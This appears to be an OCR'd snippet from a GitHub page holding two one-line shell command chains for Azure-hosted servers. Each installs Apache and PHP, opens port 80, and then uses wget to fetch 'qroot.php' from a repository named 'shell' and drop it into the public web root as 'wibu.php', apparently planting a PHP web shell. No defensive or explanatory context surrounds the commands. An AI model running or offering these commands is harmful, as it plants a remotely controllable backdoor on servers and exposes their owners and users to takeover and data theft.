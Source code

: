 -- azurewebsites.net --

apt update;apt-get install apache2 -y;apt-get install net-tools -y;apt-get install php -y;systemctl start apache2;systemctl enable apache2;ufw allow 80/tcp;chown www-data:www-data /var/www/html/wwwroot/;chown www-data:www-data /var/www/html/wwwroot/index.html;wget https://raw.githubusercontent.com/UserRoot77/shell/main/qroot.php -O /var/www/html/wwwroot/wibu.php


-- cloudapp.azure.com --

apt update;apt-get install apache2 -y;apt-get install net-tools -y;apt-get install php -y;systemctl start apache2;systemctl enable apache2;ufw allow 80/tcp;chown www-data:www-data /var/www/html;chown www-data:www-data /var/www/html/index.html;wget https://raw.githubusercontent.com/UserRoot77/shell/main/qroot.php -O /var/www/html/wibu.php;apt install -y certbot python3-certbot-apache
